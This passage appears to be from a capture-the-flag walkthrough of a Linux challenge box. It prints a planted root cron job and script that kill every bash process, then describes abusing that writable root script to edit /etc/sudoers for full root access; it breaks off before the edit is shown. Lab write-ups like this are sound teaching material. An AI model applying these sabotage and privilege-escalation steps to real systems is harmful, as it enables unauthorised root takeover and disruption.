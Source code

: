 The files inside /etc/cron.d/ are part of the configuration of cron, the task scheduling system in Linux

/etc/cron.d/ It is a special directory where you can define scheduled tasks without having to modify each user's crontab. Each file within /etc/cron.d/ contains cron rules and behaves as an extension of the system's global crontab
<pre><code>$ cd /etc/cron.d
$ ls -la
total 16
drwxr-xr-x 1 root root 4096 Jun 17  2020 .
drwxr-xr-x 1 root root 4096 Jun 17  2020 ..
-rw-r--r-- 1 root root  102 Oct 11  2019 .placeholder
-rwxr-xr-x 1 root root   61 Jun 17  2020 evil</code></pre>
<br><br><br>

every minute there is a script being executed as root
<pre><code>$ cat evil

* * * * * root /opt/brilliant_script.sh 2>&1 >/tmp/testlog</code></pre>
<br><br><br>

This script searches for and kills all running Bash processes. First, it uses ps aux to list the processes, then grep bash to filter out only those containing “bash”, excludes the grep command itself with grep -v grep, and extracts the PIDs with awk '{print $2}'. Finally, use a for loop to execute kill on each PID. 
<pre><code>$ cd /opt
$ ls
brilliant_script.sh
$ cat brilliant_script.sh
#!/bin/sh

for i in $(ps aux | grep bash | grep -v grep | awk '{print $2}'); do kill $i; done;
$ </code></pre>
<br><br><br>

to get this flag is simple, we just need to delete this instruction from the script
<pre><code>$ nano brilliant_script.sh</code></pre>
<br><br><br>

# Third  Flag (flag 2)

now I can switch to /bin/bash without any problem
<pre><code>$ /bin/bash
alex@recoveryserver:/opt$</code></pre>
<br><br><br>

previously I saw that the brilliant_script.sh script runs with root privileges every minute, to get full command execution I will make it modify the file /etc/sudoers

This gives alex unrestricted access to the system. As a result, alex can execute any command on the server without limitations.
<pre><code>$ cat brilliant_script.sh
#!/bin/sh
